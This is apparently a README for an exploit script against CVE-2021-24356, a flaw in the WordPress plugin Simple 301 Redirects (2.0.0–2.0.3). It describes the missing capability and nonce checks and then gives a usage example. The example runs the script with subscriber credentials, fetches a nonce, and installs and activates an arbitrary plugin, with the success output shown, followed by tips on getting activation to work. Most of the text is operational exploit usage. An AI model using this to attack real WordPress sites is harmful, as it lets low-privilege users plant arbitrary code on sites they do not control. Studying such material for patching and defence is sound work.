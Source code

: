 # CVE-2021-24356
Simple 301 Redirects by BetterLinks - 2.0.0 – 2.0.3 - Subscriber + Arbitrary Plugin Installation

# Description
A lack of capability checks and insufficient nonce check on the AJAX action in the plugin, made it possible for authenticated users to install arbitrary plugins on vulnerable sites. 

How to use
----

```
$ python3 CVE-2021-24356.py --url http://wordpress.lan --username user --password useruser1 --slug betterlinks
Getting REST API Nonce!
Nonce Found: dd72f43027
Installing Plugin!
{"success":true,"data":"Plugin is installed successfully!"}
Activating Plugin!
{"success":true,"data":"BetterLinks is activated!"}
```

Note: Some plugins might not activate if not you need to change sluga variable to the path/file.php that is the main file for the plugin currently works really well when the slug is something like betterlinks and the main file of the plugin is called betterlinks.php
